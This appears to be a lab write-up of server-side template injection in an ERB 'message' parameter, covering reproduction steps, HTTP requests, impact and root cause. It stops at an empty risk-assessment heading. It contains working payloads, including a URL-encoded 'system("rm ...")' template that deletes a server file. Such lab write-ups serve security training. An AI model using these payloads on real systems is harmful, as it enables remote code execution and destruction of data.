 > Finding: The `message` parameter is processed unsafely by the ERB template engine, allowing arbitrary Ruby code execution.

---

## Reproduction steps (concise, non-sensitive)

1. Open the application base URL in a browser.  
2. Construct a test payload: `<%= 7*7 %>`.  
3. URL-encode the payload: `<%25%3d+7*7+%25>`.  
4. Append to the URL: `https://<YOUR-LAB-ID>.web-security-academy.net/?message=<%25%3d+7*7+%25>`.  
5. Load the URL and verify the result (`49`) is rendered, confirming SSTI.  
6. Construct the exploit payload: `<%= system("rm /home/carlos/morale.txt") %>`.  
7. URL-encode the payload: `<%25%3d+system(%22rm+%2fhome%2fcarlos%2fmorale.txt%22)+%25>`.  
8. Append to the URL: `https://<YOUR-LAB-ID>.web-security-academy.net/?message=<%25%3d+system(%22rm+%2fhome%2fcarlos%2fmorale.txt%22)+%25>`.  
9. Load the URL to execute the command and delete `/home/carlos/morale.txt`.  
10. Verify file deletion (lab-specific confirmation, e.g., success message or lab completion).

**Representative HTTP interaction (illustrative only):**

```
GET /?message=<%25%3d+7*7+%25> HTTP/1.1
Host: <YOUR-LAB-ID>.web-security-academy.net
// Response renders "49"

GET /?message=<%25%3d+system(%22rm+%2fhome%2fcarlos%2fmorale.txt%22)+%25> HTTP/1.1
Host: <YOUR-LAB-ID>.web-security-academy.net
// Executes command, deletes file
```

---

## Observed impact

* Unauthenticated user can execute arbitrary Ruby code and system commands.  
* Successful deletion of `/home/carlos/morale.txt`, compromising system integrity.  
* Potential for escalated attacks: file creation/modification, data exfiltration, privilege escalation, or full system compromise (depending on server configuration).  
* Critical exposure of application and underlying system to unauthorized actions.

---

## Root cause analysis

* **Primary cause:** The `message` parameter is processed unsafely by the ERB template engine, allowing user-supplied input to be executed as Ruby code.  
* **Secondary cause / contributing factor:** Lack of input sanitization or validation for the `message` parameter; no sandboxing of the ERB template execution environment.  

---

## Risk assessment
